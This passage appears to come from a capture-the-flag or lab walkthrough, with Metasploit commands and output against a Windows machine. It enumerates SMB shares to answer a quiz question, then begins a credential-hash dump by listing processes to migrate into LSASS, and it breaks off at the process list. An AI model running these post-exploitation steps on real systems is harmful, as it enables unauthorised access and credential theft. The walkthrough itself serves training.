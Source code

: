 We need to set the SESSION number. Let's do that and run it:

```bash
msf6 post(windows/gather/enum_shares) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/enum_shares) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Running against session 1
[*] The following shares were found:
[*]     Name: SYSVOL
[*] 
[*]     Name: NETLOGON
[*] 
[*]     Name: speedster
[*] 
[*] Post module execution completed
```

### Answer Q: What is the name of the share likely created by the user?

`speedster`

# Dump Hashes

Let's get back to our meterpreter session:

```bash
msf6 post(windows/gather/enum_shares) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```

Our next step is to dump the hashes, first we need to migrate to the LSASS process. So let's do that

```bash
meterpreter > getpid
Current pid: 1524
meterpreter > ps

Process List
============

 PID   PPID  Name           Arch  Session  User                    Path
 --- ---- ---- ---- ------- ---- ----
 0     0     [System Proce
             ss]
 4     0     System         x64   0
 68    4     Registry       x64   0
 400   4     smss.exe       x64   0
 492   752   svchost.exe    x64   0        NT AUTHORITY\SYSTEM     C:\Windows\System32\svc
                                                                   host.exe
 552   544   csrss.exe      x64   0
 624   616   csrss.exe      x64   1
 628   752   svchost.exe    x64   0        NT AUTHORITY\SYSTEM     C:\Windows\System32\svc
                                                                   host.exe
 640   544   wininit.exe    x64   0
 688   616   winlogon.exe   x64   1        NT AUTHORITY\SYSTEM     C:\Windows\System32\win
                                                                   logon.exe
 752   640   services.exe   x64   0
 764   640   lsass.exe      x64   0        NT AUTHORITY\SYSTEM     C:\Windows\System32\lsa
                                                                   ss.exe
```